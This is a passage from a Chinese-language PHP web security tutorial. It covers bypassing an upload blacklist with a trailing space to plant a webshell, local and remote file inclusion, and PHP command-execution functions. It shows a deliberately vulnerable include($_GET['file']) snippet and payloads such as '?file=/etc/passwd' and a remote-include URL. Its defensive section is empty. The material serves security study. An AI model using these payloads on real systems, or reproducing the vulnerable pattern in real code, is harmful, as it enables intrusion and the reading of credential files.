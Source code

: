 ```php
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
?>
```

此段代码仍使用黑名单过滤，也过滤了 .htaccess 文件，审查代码发现可以使用空格绕过黑名单，因为在 Windows 系统下，后缀名之后的空格会被无视。上传 Webshell 文件，使用 Burpsuite 抓包，把文件的后缀名后加一个空格，即可绕过。

**防护**

## 文件包含漏洞

PHP 有四种文件包含方式：

* `include`
* `include_once`
* `require`
* `require_once`

其中 `include` 和 `require` 的区别是，二者处理错误的方式不同，前者生成一个警告，出错后脚本继续执行，后者生成一个致命错误，脚本停止执行。  
后面带上 `_once` 的作用是如果之前已经包含了该文件，则不会再次包含，即防止多次包含同一个文件。  

### 本地文件包含

PHP 包含文件时不会在意文件的类型，都会当作 PHP 代码执行，故可以通过改变包含的文件请求来读取系统中的敏感文件，譬如代码：

```php
<?php
    include($_GET['file']);
?>
```

URL 注入 `?file=/etc/passwd`，可读取系统的密码文件。
通过 PHP 伪协议 php://filter 可进行任意文件的读取。

### 远程文件包含

若 PHP 配置中 allow_url_include、allow_url_fopen 选项配置为 on，则可直接进行远程文件包含。如在 URL 注入：`?file=http://192.168.17.138/code.txt` 可直接远程读取该文件。

## 代码执行漏洞

**漏洞成因**

PHP 中可以调用系统命令函数：

* `system()`：执行系统命令，输出执行结果。
* `passthru()`：与 `system()`函数相似。
* `exec()`：执行系统命令，无回显，返回最后一行结果。
* `shell_exec()`：执行系统命令，返回完整的输出结果。
* `popen(command, mode)`：command 为执行的命令，mode 规定连接模式，可以是 r（只读）、w（只写）等。
* `proc_open()`：不直接返回执行结果，返回一个文件指针。
* `pcntl_exec()`：执行发生错误返回 FALSE，无错误不返回。
